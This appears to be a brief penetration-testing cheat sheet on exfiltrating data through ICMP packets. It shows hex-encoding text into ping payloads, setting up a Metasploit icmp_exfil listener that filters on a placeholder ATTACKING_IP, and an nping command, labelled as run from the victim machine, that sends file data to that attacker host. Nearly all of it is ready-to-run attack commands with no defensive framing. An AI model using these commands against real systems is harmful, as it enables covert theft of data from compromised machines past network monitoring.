 
```Shell
echo "Ali Alaqoul" | xxd -p
ping 1.2.3.4 -c 1 -p 416c6920416c61716f756c0a
```


ICMP Listner (MSFCONSOLE)
```MSF
use auxiliary/server/icmp_exfil
set BPF_FILTER icmp and not src ATTACKING_IP
set INTERFACE eth0
run
```


From the victim machine, exfilterate using nping
```Shell
sudo nping --icmp -c 1 ATTACKING_IP --data-string "victim_file.txt"
```
